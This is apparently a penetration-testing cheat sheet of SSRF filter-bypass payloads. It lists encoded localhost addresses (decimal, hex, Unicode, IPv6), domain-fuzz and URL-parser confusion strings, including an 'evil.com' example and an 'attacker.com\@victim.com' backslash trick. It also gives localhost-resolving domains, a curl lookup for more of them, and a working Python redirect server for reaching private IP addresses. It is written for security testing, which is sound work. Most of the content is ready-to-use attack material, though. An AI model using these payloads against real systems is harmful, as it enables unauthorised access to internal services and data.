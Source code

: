 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# SSRF File Bypass Techniques


## Summary

Below is a collections of payloads that could be used to bypass filters for applications using SSRF.


## Payloads

* This online SSRF URL host check bypass generator is great for quickly generating word list to test bypasses with a tool such as FFUF [https://tools.intigriti.io/redirector/](https://tools.intigriti.io/redirector/). 

* If an SSRF is found but, localhost is not allowed to be specified due to filtering, these payloads may bypass the filtering.

```
## Localhost
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.1:80
http://0
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile

## Unicode confusion
http://①②⑦.⓪.⓪.⓪

## CDIR bypass
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

## Decimal bypass
http://2130706433/ = http://127.0.0.1
http://017700000001 = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

## Hexadecimal bypass
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20

##Domain FUZZ bypass (from https://github.com/0x221b/Wordlists/blob/master/Attacks/SSRF/Whitelist-bypass.txt)
http://{domain}@127.0.0.1
http://127.0.0.1#{domain}
http://{domain}.127.0.0.1
http://127.0.0.1/{domain}
http://127.0.0.1/?d={domain}
https://{domain}@127.0.0.1
https://127.0.0.1#{domain}
https://{domain}.127.0.0.1
https://127.0.0.1/{domain}
https://127.0.0.1/?d={domain}
http://{domain}@localhost
http://localhost#{domain}
http://{domain}.localhost
http://localhost/{domain}
http://localhost/?d={domain}
http://127.0.0.1%00{domain}
http://127.0.0.1?{domain}
http://127.0.0.1///{domain}
https://127.0.0.1%00{domain}
https://127.0.0.1?{domain}
https://127.0.0.1///{domain}

## Malformed URLs and rare addresses
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1

## Tricks
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
filter_var() php function: 0://evil.com:80;http://google.com:80/

## Weakparser
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

* If the web application is disallowing requests to the common addresses, ie 127.0.0.1, [::1], localhost, etc. The web application may not filter domain names that resolve to localhost addresses. At the time of writing, these domain names resolve to localhost addresses, please verify this before testing.

```
localtest.me -> 127.0.0.1
spoofed.burpcollaborator.net -> 127.0.0.1
bugbounty.dod.network -> 127.0.0.2
```
* If more domain names that resolve to local host are required, project sonar can be queried with the below command to obtain 10,000 domain names that resolve to a localhost address at a time. Although it is highly advised that domains are placed under a level of scrutiny before being used for testing.

```
curl 'https://sonar.omnisint.io/reverse/127.0.0.0/8' | jq .[] | tr -d '"[], ' 
```

* When the web application allows only for external hosts to be specified, but it does not check the final destination of the request. Hosting an external web server that redirects to private IP addresses may work. Below is an example of a simple python web server for this purpose. If the 302 does not work try other 300 redirection response codes.

```
#!/usr/bin/env python3

# example usage
#                      web server port    URL To Redirect To    
#python3 ./redirector.py    8000         http://127.0.0.1/

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("Usage: {} <port_number> <url>".format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       # send the 302 response code to let the client know that it need to request the URI specified in the Location header
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

* Below are a few techniques that could be used if the web application only excepts subdomains of a particular domains as a destinations, but it does not check the final destination of the request.

    * Try to use the "Backslash-trick" to test for conflicting URL parsers for example ```https://attacker.com\@victim.com/``` or ```https://attacker.com\anything@victim.com/```

 	* Look for subdomains of those domains that point to a localhost address or private IP addresses. It is worth checking for the subdomain ```localhost```, it is relatively common for that subdomain to resolve to 127.0.0.1.

	* Look for an open redirect vulnerability on web applications that have domain names that are white listed. An open redirect could be used to redirect to private IP addresses.

	* Look for a subdomain take over vulnerable on subdomains of white listed domains. After identifying a sub domain vulnerable to subdomain take over, depending on which service the sub domain exists on it could be used to create an open redirect to redirect to private IP addresses.


# References 

[https://portswigger.net/web-security/ssrf](https://portswigger.net/web-security/ssrf)

[https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md)


[https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)

